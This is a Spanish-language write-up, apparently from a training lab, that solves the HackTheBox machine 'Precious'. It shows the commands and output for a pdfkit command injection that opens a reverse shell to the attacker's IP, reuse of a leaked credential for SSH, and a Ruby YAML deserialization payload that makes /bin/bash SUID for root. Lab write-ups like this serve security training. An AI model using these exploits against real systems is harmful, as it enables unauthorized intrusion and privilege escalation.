


Resolución de la máquina Precious de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.189
Nmap scan report for 10.10.11.189
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Al hacer un simple curl en las cabeceras podemos ver el dominio precious.htb
❯ curl -s 10.10.11.189 -I | grep Location:
Location: http://precious.htb/
En la web podemos ver ... ¿un convertidor de web a pdfs?
Creamos un servidor con python para ver si hace alguna petición
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Ahora apuntamos a nuestro servidor http y damos submit

Nos hace una peticion a nuestro servicio http, pero tambien nos descarga un pdf
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - "GET / HTTP/1.1" 200 -
❯ ls -l
.rw-r--r-- gato gato 17 KB Fri Dec 2 21:07:38 2022 archivo.pdf
Con exiftool nos dice que se genera con pdfkit y nos da la versión
❯ exiftool archivo.pdf
ExifTool Version Number : 12.16
File Name : archivo.pdf
Directory : .
File Size : 17 KiB
File Modification Date/Time : 2022:12:02 21:07:38-06:00
File Access Date/Time : 2022:12:02 21:07:38-06:00
File Inode Change Date/Time : 2022:12:02 21:07:53-06:00
File Permissions : rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Creator : Generated by pdfkit v0.8.6
En el siguiente articulo nos muestra un payload, cambiamos el sleep por una revshell
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.10/443 0>&1"`'}
Simplemente pegamos nuestro payload con la reverse shell y lo enviamos

Ahora en nuestro listener tenemos la revshell como ruby
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.189
ruby@precious:/var/www/pdfapp$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$ hostname -I
10.10.11.189
ruby@precious:/var/www/pdfapp$
Podemos ver una carpeta .blunde con un archivo config que contiene credenciales de henry
ruby@precious:~$ ls -la
drwxr-xr-x 4 ruby ruby 4096 Dec 2 22:03 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root 9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby 220 Mar 27 2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27 2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Dec 2 22:03 .cache
-rw-r--r-- 1 ruby ruby 807 Mar 27 2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$
Nos conectamos por ssh como henry y obtenemos la primera flag
❯ ssh henry@10.10.11.189
henry@10.10.11.189's password: Q3c1AqGHtoI0aXAYFH
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ hostname -I
10.10.11.189
henry@precious:~$ cat user.txt
d28**************************db5
henry@precious:~$
Mirando permisos de sudoers, podemos ejecutar un archivo de ruby como root
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$
Si leemos el archivo podemos ver que en una parte intenta cargar a dependencies.yml
henry@precious:~$ cat /opt/update_dependencies.rb | head -n11 | tail -n3
def list_from_file
YAML.load(File.read("dependencies.yml"))
end
henry@precious:~$
Podemos crear el archivo dependencies.yml en el directorio actual con el siguiente payload como contenido para que nos ejecute un comando para hacer la bash suid
henry@precious:~$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: chmod u+s /bin/bash
method_id: :resolve
henry@precious:~$
Ahora al ejecutar el script ruby y cargar el yml, ejecutara el comando y la bash sera suid
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 2>/dev/null
henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
henry@precious:~$
Ejecutamos la bash como el propieratio y somos root ahora podemos leer la flag
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# hostname -I
10.10.11.189
bash-5.1# cat /root/root.txt
f93**************************e0a
bash-5.1#